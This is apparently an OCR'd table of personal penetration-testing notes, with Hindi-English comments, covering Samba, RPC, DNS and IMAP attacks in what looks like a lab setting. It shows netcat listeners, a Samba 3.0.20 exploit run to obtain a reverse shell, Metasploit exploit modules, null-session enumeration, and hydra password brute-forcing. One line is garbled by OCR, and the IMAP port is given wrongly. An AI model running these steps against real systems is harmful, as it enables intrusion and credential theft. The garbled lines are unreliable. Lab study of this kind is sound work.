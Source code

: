 | > nc -nlvp 4444   | complete  |
| Goto the google and search   : - Samba smbd 3.0.20-Debian exploit on github |  |
| $ nc -nlvp 5555 |  |
| python3 [smb3.0.20.py](http://smb3.0.20.py/) -lh 10.10.16.18 -lp 5555 -t 10.10.10.3  | 1 local hostip ,t- target port ip   ,ye execute krate hi reverse shell mil jayega. |
| RPC client |  |
| https://www.hackingarticles.in/active-directory-enumeration-rpcclient/ |  |
| rpcclient -U "%" 192.168.0.107 |  |
| command run ek ke baad ek  | command :-    srvinfo , querydominfo , enumdomusers , enumdomgroups |
| msfconsole |  |
| use auxiliary/scanner/smb/smb_version    |  |
| use exploit/multi/samba/usermap_script |  |
| —————————————————————— | —————————————————————————————————- |
| 7] DNS (53) |  |
| nmap 192.168.0.107 --script=dns-brute.nse -p 139,445 |  |
| nslookup <domain> OR nslookup <IP> |  |
| `nslookup -type=ns [domain-name]` |  |
| `nslookup` → `server <dns-ip>`    | Set specific DNS server to query |
| `nslookup` → `set type=MX` | Get mail exchange records |
| `nslookup` → `set type=NS` | Get name server records |
| `nslookup` → `set type=TXT` | Get TXT records (used in SPF, DKIM etc.) |
| `nslookup` → `set type=ANY` | Get all records (A, MX, NS, TXT etc.) |
| nslookup
> server 192.168.1.10
> set type=any |  |
| dig [domain.com](http://domain.com/) MX  | NS -namr server, |
| `dig domain.com ANY` | all |
| msfconsole |  |
| use auxiliary/gather/enum_dns | DNS enum, collects names, records, zones |
| use auxiliary/gather/dns_bruteforce | Bruteforce DNS subdomains |
| —————————————————————— | ————————————————————————————————— |
| 8] IMAP (146) |  |
| nmahydra -L users.txt -P pass.txt imap://<target>p -p 143 -sV <target> | IMAP login brute-force |
| msfconsole  |  |
| use auxiliary/scanner/imap/imap_version | IMAP version scan via Metasploit |
| use auxiliary/scanner/imap/imap_login | Login brute-force via Metasploit |
| use auxiliary/scanner/imap/imap_enum | IMAP mailbox structure enumeration (depends on creds) |
| —————————————————————— | ————————————————————————————————— |
| 9] SQL (3306) |  |